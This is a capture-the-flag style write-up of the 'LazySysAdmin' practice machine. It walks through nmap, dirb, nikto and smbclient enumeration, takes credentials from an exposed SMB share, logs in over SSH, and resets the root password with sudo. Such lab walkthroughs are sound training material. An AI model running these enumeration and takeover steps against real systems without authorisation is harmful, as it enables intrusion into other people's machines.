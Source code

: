 ## LazySysAdmin

* * *

**Finding the IP** \- `sudo arp-scan 10.0.0.0/24`

![Optional Text](/LazyAdminWriteUp/_resources/5ecc1faea08d4ab6a1fd728b732c4f0f.png)

**Attempting SSH**.......... gotta try :)

![Optional Text](/LazyAdminWriteUp/_resources/e3e174550b2a424ea903e366252fbab3.png)

* * *

## Nmap

- `nmap -sC -sV -oA nmapscans/lazyadmin 10.0.0.144`

**nmap scan results**

```
Starting Nmap 7.80 ( https://nmap.org ) at 2021-03-22 09:03 EDT
Nmap scan report for 10.0.0.144
Host is up (0.0018s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 b5:38:66:0f:a1:ee:cd:41:69:3b:82:cf:ad:a1:f7:13 (DSA)
|   2048 58:5a:63:69:d0:da:dd:51:cc:c1:6e:00:fd:7e:61:d0 (RSA)
|   256 61:30:f3:55:1a:0d:de:c8:6a:59:5b:c9:9c:b4:92:04 (ECDSA)
|_  256 1f:65:c0:dd:15:e6:e4:21:f2:c1:9b:a3:b6:55:a0:45 (ED25519)
80/tcp   open  http        Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Silex v2.2.7
| http-robots.txt: 4 disallowed entries 
|_/old/ /test/ /TR2/ /Backnode_files/
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Backnode
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL (unauthorized)
6667/tcp open  irc         InspIRCd
| irc-info: 
|   server: Admin.local
|   users: 1
|   servers: 1
|   chans: 0
|   lusers: 1
|   lservers: 0
|   source ident: nmap
|   source host: 10.0.0.186
|_  error: Closing link: (nmap@10.0.0.186) [Client exited]
Service Info: Hosts: LAZYSYSADMIN, Admin.local; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -3h20m00s, deviation: 5h46m24s, median: 0s
|_nbstat: NetBIOS name: LAZYSYSADMIN, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: lazysysadmin
|   NetBIOS computer name: LAZYSYSADMIN\x00
|   Domain name: \x00
|   FQDN: lazysysadmin
|_  System time: 2021-03-22T23:04:01+10:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-03-22T13:04:01
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.56 seconds
```

* * *

`Note`
*from the nmap output alone, I see several avenues of interest but I decided to continue with enumerating the box*

* * *

## Dirb and Nikto
* * *
### dirb
- `dirb http://10.0.0.144:80/ /home/doxg/Downloads/wordlist/dirb-kali-master/wordlists/common.txt`

 The dirb scan found many directories to investigate, but the output was pretty large so I will just provide a sample below, you can also run the command yourself to see.

```
 Scanning URL: http://10.0.0.144:80/ ----
==> DIRECTORY: http://10.0.0.144:80/apache/                                                                                                     
+ http://10.0.0.144:80/index.html (CODE:200|SIZE:36072)                                                                                         
+ http://10.0.0.144:80/info.php (CODE:200|SIZE:77224)                                                                                           
==> DIRECTORY: http://10.0.0.144:80/javascript/                                                                                                 
==> DIRECTORY: http://10.0.0.144:80/old/                                                                                                        
==> DIRECTORY: http://10.0.0.144:80/phpmyadmin/                                                                                                 
+ http://10.0.0.144:80/robots.txt (CODE:200|SIZE:92)                                                                                            
+ http://10.0.0.144:80/server-status (CODE:403|SIZE:290)                                                                                        
==> DIRECTORY: http://10.0.0.144:80/test/                                                                                                       
==> DIRECTORY: http://10.0.0.144:80/wordpress/                                                                                                  
==> DIRECTORY: http://10.0.0.144:80/wp/                                    
---- Entering directory: http://10.0.0.144:80/apache/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                               
---- Entering directory: http://10.0.0.144:80/javascript/ ----
==> DIRECTORY: http://10.0.0.144:80/javascript/jquery/                                                                                         
---- Entering directory: http://10.0.0.144:80/old/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                              
---- Entering directory: http://10.0.0.144:80/phpmyadmin/ ----
```

### Nikto
* * *
- `nikto -h 10.0.0.144:80`

![Optional Text](/LazyAdminWriteUp/_resources/0e535510a0dd4264af4ee3ee69972d0c.png)

- `Note`
*After the Nikto and Dirb scans I see several directories of interest. I brefiely check them out but wanted to continue.* 

**Marked a few to revist**
```
- http://10.0.0.144/test/
- http://10.0.0.144/old/
- http://10.0.0.144/phpmyadmin/
- http://10.0.0.144/wordpress/
```
Found a **username** on the "/wordpress/" page **"togie"**
![Optional Text](/LazyAdminWriteUp/_resources/0ecc4e0304c44381a4e9e3c653ee1295.png)

## SMB
* * *
- `nmap --script smb-os-discovery 10.0.0.144`
* * *

![Optional Text](/LazyAdminWriteUp/_resources/6aa4e3672c074ee3ac93972e6f01510c.png)

**List Shares**
- `smbclient -L 10.0.0.144`
![Optional Text](/LazyAdminWriteUp/_resources/0409d251197f42db86eda3ec2a935ce7.png)

**Connect to Share**
- `smbclient //10.0.0.144/share$`
- `login prompt provide creds`
- `ls`
![Optional Text](/LazyAdminWriteUp/_resources/7af5b1184b60448c859a9be36fef8a12.png)

**Grab Files**
- `get todolist.txt`
- `get deets.txt`


**Read Files**
- `cat deets.txt`

![Optional Text](/LazyAdminWriteUp/_resources/d13749b4bd9c4ef68e7099e3e563559a.png)
* * *

## Login Attempt
* * *
At this point the **wordpress** page gave us the username **togie** and the deets.txt file, gave us the password **12345**


![Optional Text](/LazyAdminWriteUp/_resources/23ecdf608af24b709560e0d00c352d44.png)



* * *
### SSH Attempt

With **togie** and **12345** SSH Login was succesful!

![Optional Text](/LazyAdminWriteUp/_resources/edc9eed3210c4d2d9032a31b4daca8da.png)

I tried to run a **"sudo -l"** and was succesful. This confirmed I could run sudo.
![Optional Text](/LazyAdminWriteUp/_resources/cdeaa59cdd0a4dcdac5bdab2de488036.png)

**Change the root password and login as root**
Now that I know I can run sudo. I figured why not try to change the root password

- `sudo passwd root`
    
- `su root`

Now I am logged on as root I run "ls" and see a proof.txt file

-  `ls`
    
- `cat proof.txt`
    
![Optional Text](/LazyAdminWriteUp/_resources/d67193cf5c8c4618ac5ea26d010e0573.png)

## All Done!
